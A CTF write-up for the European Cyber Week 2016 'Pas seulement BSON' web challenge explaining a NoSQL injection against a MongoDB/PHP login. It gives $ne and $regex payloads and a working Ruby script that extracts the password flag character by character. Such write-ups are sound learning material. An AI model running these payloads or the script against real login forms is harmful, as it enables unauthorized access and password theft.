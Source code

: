 ```yaml
---
layout: post
title: "ECW - 100 - Pas seulement BSON - Web"
lang: en
categories:
  - security
  - writeups
tags:
  - security
  - writeups
  - ctf
  - web
date: 2016/11/06
thumbnail: /images/ctf.png
---
```

## Informations

### Version

| By    | Version | Comment
| ---   | ---     | ---
| noraj | 1.0     | Creation

### CTF

- **Name** : European Cyber Week CTF Quals 2016
- **Website** : [challenge-ecw.fr](https://challenge-ecw.fr/)
- **Type** : Online
- **Format** : Jeopardy - Student

### Description

N.A.

## Solution

This is a [NoSQL injection][nosqlInjection] on the famous [MongoDB](https://www.mongodb.com/) with certain [PHP][phpRequestInjectionAttacks] at backend.

[nosqlInjection]:https://www.owasp.org/index.php/Testing_for_NoSQL_injection
[phpRequestInjectionAttacks]:http://www.php.net/manual/en/mongo.security.php

We used the [query operators](queryOperator) to perform the NoSQLi.

[queryOperator]:https://docs.mongodb.com/manual/reference/operator/query/

We tested the following payload in our script with the [ne][ne] query operator to confirm presence of the vulnerability:

```
password[$ne]=nosql&nonce=myNonce
```

[ne]:https://docs.mongodb.com/manual/reference/operator/query/ne/#op._S_ne

Then we retrieved the password letter by letter with the [regex][regex] query operator of NoSQL.
At the beginning the script uses the following paylods:

```
password[$regex]=ECW{.{32}}&nonce=myNonce
password[$regex]=ECW{a.{31}}&nonce=myNonce
password[$regex]=ECW{b.{31}}&nonce=myNonce
password[$regex]=ECW{c.{31}}&nonce=myNonce
[...]
```

[regex]:https://docs.mongodb.com/manual/reference/operator/query/regex/#op._S_regex

Each bad request results in an authentification failure and when the right char is found with a succesful authentification, the script with try to find the next chars with something like:

```
password[$regex]=ECW{2.{31}}&nonce=myNonce
password[$regex]=ECW{2a.{30}}&nonce=myNonce
password[$regex]=ECW{2b.{30}}&nonce=myNonce
password[$regex]=ECW{2c.{30}}&nonce=myNonce
[...]
```

So here is our script that we adapted from the first web challenge *Authentification*.

```ruby
#!/usr/bin/env ruby

require 'curb' # for get/post requests

hostname = 'https://challenge-ecw.fr/chals/web200'
nonce = 'myNonce'

c = Curl::Easy.new(hostname) do |curl|
  curl.headers['Cookie'] = 'session=mySessionCookie'
  curl.headers['Referer'] = hostname
  curl.headers['Host'] = 'challenge-ecw.fr'
  curl.headers['Connection'] = 'keep-alive'
  curl.headers['Upgrade-Insecure-Requests'] = '1'
  #curl.verbose = true
end # Curl
c.perform # send the request

if c.body_str.match(/Un nouveau m/)
  puts '• Connexion to ECW works'
end

length = 32 # md5(hash)

# Find each char of the password one by one
answer = ""
ECW_flag_alphabet_array = ('a'..'f').to_a + (0.to_s..9.to_s).to_a # md5(hash)
(1..length).each do |offset|
  ECW_flag_alphabet_array.each do |char|
    c.http_post(Curl::PostField.content('password[$regex]', "ECW{#{answer}#{char}.{#{length - offset}}}"),
                Curl::PostField.content('nonce', nonce))
    c.perform
    if c.body_str.match(/Authentification valide\. Le mot de passe est le flag\./)
      answer.concat(char)
      puts "Password: ECW{#{answer}}"
      break
    else
      puts "Tried: ECW{#{answer}#{char}}"
    end
  end
end
```
